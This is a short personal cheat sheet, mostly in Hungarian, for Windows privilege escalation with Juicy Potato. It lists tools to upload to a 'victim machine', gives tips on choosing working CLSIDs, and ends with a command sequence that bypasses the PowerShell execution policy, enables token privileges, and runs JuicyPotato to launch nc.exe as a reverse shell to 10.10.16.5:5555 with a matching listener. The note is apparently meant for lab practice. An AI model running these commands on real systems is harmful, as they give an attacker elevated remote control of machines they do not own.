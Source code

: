 # Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * ez nem mukodott
      * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * ez mukodott
      * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuicyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
<b># victim machine</b>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"

<b># attack machine</b>
$ nc -nvlp 5555
</pre>
